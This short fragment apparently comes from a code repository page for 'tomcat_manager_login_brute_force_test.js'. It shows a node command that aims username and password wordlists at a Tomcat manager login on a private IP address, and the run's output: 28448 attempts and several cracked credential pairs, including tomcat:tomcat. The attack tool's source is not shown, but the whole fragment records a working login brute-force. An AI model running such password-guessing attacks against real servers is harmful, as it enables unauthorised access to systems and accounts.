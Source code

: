 tomcat_manager_login_brute_force_test.js
```
####### node this.js http://192.168.152.132:8080/manager/html usname.txt passwd.txt
Total Count:28448
------
Good luck: {200} tomcat:tomcat
Good luck: {403} admin:tomcat
Good luck: {403} 123:195641195641
------
Total Seconds:26.27
```

